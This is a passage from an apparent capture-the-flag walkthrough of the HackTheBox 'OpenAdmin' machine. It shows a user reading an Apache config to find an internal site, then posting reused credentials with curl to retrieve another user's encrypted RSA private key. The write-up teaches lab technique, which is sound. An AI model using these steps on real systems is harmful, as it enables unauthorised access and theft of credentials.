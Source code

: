 This hash could've also been cracked by using [CrackStation](https://crackstation.net/).

```bash
jimmy@openadmin:/var/www/internal$ cat /etc/apache2/sites-available/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

We can see that this website is listening on `127.0.0.1:52846`.

```bash
jimmy@openadmin:/var/www/internal$ curl -d 'username=jimmy&password=Revealed' http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
